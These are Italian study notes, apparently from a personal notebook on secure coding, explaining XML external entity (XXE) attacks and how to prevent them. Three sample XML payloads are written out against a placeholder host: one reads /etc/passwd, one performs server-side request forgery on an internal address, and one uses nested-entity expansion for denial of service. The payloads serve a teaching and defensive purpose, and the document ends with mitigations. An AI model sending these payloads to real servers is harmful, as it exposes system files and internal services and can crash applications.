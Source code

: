 - Preferire componenti con firma digitale (sicurezza di integrità) 
- Utilizzo di software di controllo per lo stato di aggiornamento delle dependencies (es. OWASP Dependencies Check)
### XML Entity Expansion
#xml è un formato testuale utilizzato per rappresentare informazioni strutturate. 
Tramite attacchi #XEE è possibile:
- vedere file nel server
```
POST http://www.vulnerableapp.com/xml HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```
- effettuare attacchi [Server-Side Request Forgery]( #SSRF)
```
POST http://www.vulnerableapp.com/xml HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://internal.vulnerableapp.com:8443">
]>
<foo>
  &xxe;
</foo>
```
- effettuare attacchi #DoS tramite il #nesting multiplo di entità come **&lt** e **&gt**, che rappresentano i caratteri **<** e **>**:
```
POST http://www.vulnerableapp.com/xml HTTP/1.1<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "SecureFlag ">
  <!ENTITY t1 "&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<foo>
  Join &t3;
</foo>
```

#### Prevenzione
- Disabilitando la funzione Document Type Definition ( #DTD)
	```
	 disable_external_entities(true)
	 ```
- Gestire dati in formati semplici (es. #JSON )
- Verificare in ambiente di #testing che le chiamate #xml abbiano le dovute restrizioni
